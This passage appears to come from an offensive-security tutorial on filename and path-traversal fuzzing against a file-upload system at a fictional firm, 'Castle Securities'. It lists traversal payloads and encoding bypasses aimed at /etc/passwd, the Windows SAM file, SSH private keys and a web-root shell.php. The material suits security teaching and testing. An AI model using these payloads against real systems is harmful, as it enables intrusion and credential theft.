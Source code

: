 Each system presents different optimization opportunities for file format exploitation.

---

## Building Filename and Path Fuzzing Tools

Filename-based attacks often provide the most direct path to code execution because they can affect file storage location, processing logic, and system integration without requiring complex format manipulation.

### Systematic Path Traversal Testing

Path traversal attacks attempt to control file storage location through filename manipulation, potentially allowing file writes to system directories, web roots, or configuration locations.

[PLACEHOLDER:CODE Name: Systematic path traversal fuzzer for file upload exploitation. Purpose: Generates comprehensive filename-based path traversal payloads, tests various encoding and bypass techniques, validates successful traversal through response analysis. Value: Essential.]

Build systematic path traversal attacks using multiple encoding and bypass techniques:

**Basic Path Traversal Patterns**:
```
../../../etc/passwd.txt
....//....//....//etc//passwd.txt
..%2f..%2f..%2fetc%2fpasswd.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd.txt
```

**Operating System Specific Patterns**:
```
Unix/Linux: ../../../etc/passwd.txt
Windows: ..\..\..\windows\system32\config\sam.txt
Mixed: ../../../windows/system32/config/sam.txt
```

**Web Application Specific Targets**:
```
../../../var/www/html/shell.php.txt
../../../opt/castle/config/database.conf.txt
../../../home/castle/.ssh/id_rsa.txt
```

**Encoding Bypass Techniques**:
```
Double encoding: %252e%252e%252f
Unicode encoding: \u002e\u002e\u002f
UTF-8 overlong: %c0%ae%c0%ae%c0%af
```

Test each path traversal technique against Castle Securities' upload system and analyze responses for success indicators.

### Filename-Based Code Execution

Some file processing systems execute or serve uploaded files based on filename characteristics, creating opportunities for direct code execution through filename manipulation.
